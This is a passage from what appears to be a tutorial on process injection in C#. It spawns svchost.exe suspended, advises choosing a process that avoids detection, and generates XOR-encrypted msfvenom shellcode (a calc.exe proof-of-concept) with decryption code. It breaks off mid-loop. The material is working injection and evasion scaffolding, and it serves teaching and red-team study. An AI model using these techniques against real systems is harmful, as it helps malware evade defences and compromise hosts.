 ```csharp
 public IntPtr lpReserved2;
 public IntPtr hStdInput;
 public IntPtr hStdOutput;
 public IntPtr hStdError;
}
[StructLayout(LayoutKind.Sequential)]
public struct PROCESS_INFORMATION
{
 public IntPtr hProcess;
 public IntPtr hThread;
 public int dwProcessId;
 public int dwThreadId;
}
public static class CreationFlags
{
 public const uint SUSPENDED = 0x4;
}
public const int PROCESSBASICINFORMATION = 0;
```
These can be found here

- [PROCESS_BASIC_INFORMATION](https://www.pinvoke.net/default.aspx/Structures/PROCESS_BASIC_INFORMATION.html)
- [STARTUPINFO](https://www.pinvoke.net/default.aspx/Structures/STARTUPINFO.html)
- [PROCESS_INFORMATION](https://www.pinvoke.net/default.aspx/Structures/PROCESS_INFORMATION.html)

### Main Method
Now that we have the imports and structs set we can get into it. 
<br>
First we will create our process in a suspended state. The process can be anything for a POC but use something that would be less sus to avoid detections. We also need to initialize some objects that we are going to use late.
```csharp
PROCESS_INFORMATION proc_info = new PROCESS_INFORMATION();
STARTUPINFO startup_info = new STARTUPINFO();
PROCESS_BASIC_INFORMATION pbi = new PROCESS_BASIC_INFORMATION();

string path = @"C:\\Windows\\System32\\svchost.exe";
bool procINIT = CreateProcess(null, path, IntPtr.Zero, IntPtr.Zero, false, CreationFlags.SUSPENDED,
                IntPtr.Zero, null, ref startup_info, ref proc_info);
```
To make sure the process created sucessfully we can use a simple if statement and use `procINIT`
```csharp
if (procINIT == true)
{
  Console.WriteLine("[*] Process create successfully.");
  Console.WriteLine("[*] Process ID: {0}", proc_info.dwProcessId);
}
else
{
  Console.WriteLine("[-] Could not create the process.");
}
```
The process ID is fetched from the `PROCESS_INFORMATION` struct that we initialized.
<br>
Paste the shellcode obtained from `msfvenom` now. Ill be using the calc popping shellcode again but this time I'll also be XOR encrypting it using `msfvenom`. The command becomes
```bash
msfvenom -p windows/x64/exec CMD=calc.exe -f csharp EXITFUNC=thread --encrypt xor --encrypt-key z
```
And the decrypting shellcode part is
```csharp
for (int i = 0; i < buf.Length; i++)
{
  buf[i] = (byte)(buf[i] ^ (byte)'z');
```